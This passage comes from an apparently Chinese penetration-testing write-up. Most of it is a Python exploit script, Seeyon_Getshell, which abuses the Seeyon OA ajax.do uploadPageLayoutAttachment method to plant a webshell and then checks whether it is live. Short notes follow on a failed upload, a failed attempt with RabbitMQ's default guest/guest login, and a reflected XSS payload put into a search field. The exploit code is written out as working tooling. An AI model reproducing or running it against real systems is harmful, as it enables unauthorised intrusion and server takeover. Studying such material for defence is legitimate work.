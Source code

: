 ```
        fileid = fileid1[0]
        if len(fileid1) == 0:
            print('未获取到文件id可能上传失败！')
        print('上传成功文件id为---->>:'+fileid)
        Date_time = time.strftime('%Y-%m-%d')
        headersfile2 = {'Content-Type': 'application/x-www-form-urlencoded','Cookie': &#34;JSESSIONID=%s&#34; % jsessionid}
        getshellurl = urllist+'/seeyon/ajax.do'
        data = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + Date_time + '%22%2C%22' + fileid + '%22%5D'
        getshell = requests.post(url=getshellurl,data=data,headers=headersfile2)
        time.sleep(1)
        webshellurl1 = urllist + '/seeyon/common/designer/pageLayout/' + webshell_name1
        shelllist = requests.get(url=webshellurl1)
        if shelllist.status_code == 200:
            print('利用成功webshell地址：'+webshellurl1)
        else:
            print('未找到webshell利用失败')



def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        Seeyon_Getshell(url)
    else:
        print(&#34;python3 Seeyon_Getshell.py http://xx.xx.xx.xx&#34;)

if __name__ == '__main__':
    main()
```

  
只能上传zip文件，不能解压，失败  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnluSCXwdwxNun8KwWFZNd3FjL9yOiaZ0wUvhoE19Zn0I6fHS7ziaVwk8bKSs9Jx5R8EX2opsicLMJkg/640?wx_fmt=png&from=appmsg "")  
## 尝试rabbitmq未授权登录  
  
默认账号密码为guest/guest，失败  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnluSCXwdwxNun8KwWFZNd33RBhRflpSuCAO24J8xlruIHPGbz0RKMU9fibydtoyJBtIQzywib7U41Q/640?wx_fmt=png&from=appmsg "")  
## xss  
  
反射型xss  
发现一个查询框，尝试xss  

```
>&#34;'><script>alert('XSS')</script>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnluSCXwdwxNun8KwWFZNd3eiaG5WYUS9nu6mCiaibggk5hEchwWu9bGXgia1JtW35LRK0M98L5KicPvvw/640?wx_fmt=png&from=appmsg "")  
  
